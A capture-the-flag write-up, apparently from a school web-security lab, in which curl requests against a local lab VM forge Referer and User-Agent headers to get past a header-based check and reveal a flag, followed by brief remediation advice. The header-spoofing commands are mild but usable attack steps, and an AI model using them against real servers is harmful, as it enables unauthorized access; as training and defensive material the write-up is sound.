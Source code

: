 # Custom curl request with evil headers

## How we found the breach

After inspecting the page: `http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f` several suspicious html comments can be found inside it.

```html
<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

The first one suggests that we're coming from a specific url, well then lets just try it.

## Custom curl Referrer header

We will use `curl` to perform our requests, using `curl --header "Header_foo: bar"` we can define custom header key value pairs.
Also we will make a diff on the fly of the default page versus our custom curl.
First the `Referrer` header using `curl --header "Referer: https://www.nsa.gov/" url`.

```bash
diff <(curl --silent "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

As we can see the server sent back a different page content `FIRST STEP DONE`
The second suspicious comment is talking about a browser, lets play with the `User-Agent` header.

## Custom curl User-Agent header

Lets take our previous step command and add custom header for the user agent, using `curl --header "User-Agent: browser"`.

```bash
diff <(curl --silent "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" --header "User-Agent: ft_bornToSec" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

There we go ! In the returned page we can find the flag !

## How to exploit the breach

If the server makes assertions on the headers of the request, then depending on the resulting operations can be really risky if any transaction or authentication is involved.

## How to avoid the breach

As for everything that builds a request, specfic headers can be set manually by an hacker.
To avoid such security issue, the server should not be making high risky assertion depending on the request's header.
